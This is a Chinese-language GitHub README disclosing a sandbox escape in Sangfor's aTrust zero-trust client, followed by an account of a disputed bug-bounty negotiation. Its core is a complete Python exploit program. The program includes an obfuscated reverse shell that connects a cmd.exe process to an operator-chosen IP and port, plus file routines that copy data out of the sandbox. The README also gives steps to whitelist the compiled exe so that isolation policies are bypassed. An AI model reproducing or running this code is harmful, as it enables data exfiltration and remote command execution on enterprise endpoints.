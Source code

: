 # SXF_aTrust_sandbox_bypass
深信服零信任沙箱逃逸( 正常功能，所以我也不打算再提交CNVD, 给使用这款产品的用户介绍下这个神奇的功能效果 ）


# 一、功能介绍
* 环境：鹏程众测
* 类型：sandbox bypass
* 危害：无，正常业务功能罢了
* 权限：登陆后

## 1. 将如下py编译为exe
```python
import string
import random

def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def readanyfile(filepath):
    with open(filepath,"rb") as f:
        contentbytes = f.read()
    print(contentbytes)
    return contentbytes

def writeanyfile(filepath, contentbytes):
    contentbytes = contentbytes
    with open(filepath,"wb") as f:
        f.write(contentbytes)

def reverseshell(ip,port):
    try:
        (lambda __y, __g, __contextlib: [[[[[[[(s.connect((ip, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))
    except:
        pass


def main():
    c = input("[1] 文件逃逸 [2] 反弹shell [3]退出:\n")
    if c == "1":
        print("[1-1] 验证：数据进入沙箱")
        in_sand = input("沙箱内文件路径:\n")
        writeanyfile(in_sand, "flag_{}_".format(random_string(20)).encode())
        print("请确认沙箱内{}文件写入flag\n\n".format(in_sand))
        
        print("[1-2]验证：数据出沙箱")
        out_sand = input("沙箱外文件路径:\n")
        writeanyfile(out_sand,readanyfile(in_sand))
        print("请确认沙箱外{}文件与沙箱内文件数据一致\n\n".format(out_sand))
    elif c == "2":
        ip = input("IP:\n")
        port = input("PORT:\n")
        reverseshell(ip,int(port))
    elif c=="3":
        exit()

while True:
    main()
```

pyinstaller -F taoyi_yanshi.py

## 2. 在安装名单配置上编译出的taoyi_yanshi.exe
功能名称是: 程序安装白名单

功能描述是(此处一字不漏): 此功能可用于无痕模式时保护数据不被自动清除；也可用于解决程序在工作空间安装后使用异常问题(名单内的安装包在工作空间安装时，释放的文件会落盘到个人空间，安装完成后程序产生的数据会落盘到工作空间，即程序安装在个人空间，但运行仍在工作空间)

你可能会好奇，在登录后台有专门一页可以配置安全策略，如'文件导入导出控制'，'剪切板拷贝控制'等，那儿不是配置安全策略的？
想多了，根本不需要那么复杂，配置安装名单比配置策略好用多了，而且其可以让安全策略完全失效，毕竟哪位睿智能想到避免清空数据的功能可以穿越沙箱。
是的，不要怀疑自己，就是这么牛逼。


## 3. 效果
* 程序可以沙箱内外任意写
* 程序落地数据，明文可读
![](1.png)
![](2.png)

# 二、交涉过程
* 5.10 发现问题
* 5.14 沟通情况，电话说需证明反弹shell
* 5.18 提交漏洞详情，证明反弹shell
* 5.20-5.30 争议
* 5.30 发群里仲裁
（补图）
* 5.30 - 6.10 说价格不合适，现在是讨论价格？是你们压根不认为是漏洞，要吃掉吧，然后不回消息
（补图）

群里如何看待本问题？
就一个WeiAi说了看法，什么成分我不知道，但是郑就认为一个人说的话就决定了。 晚点补图

为什么不让小团体仲裁？
赛博大佬说用github 都是卖国的，小心赛博大佬黑了你们。补图

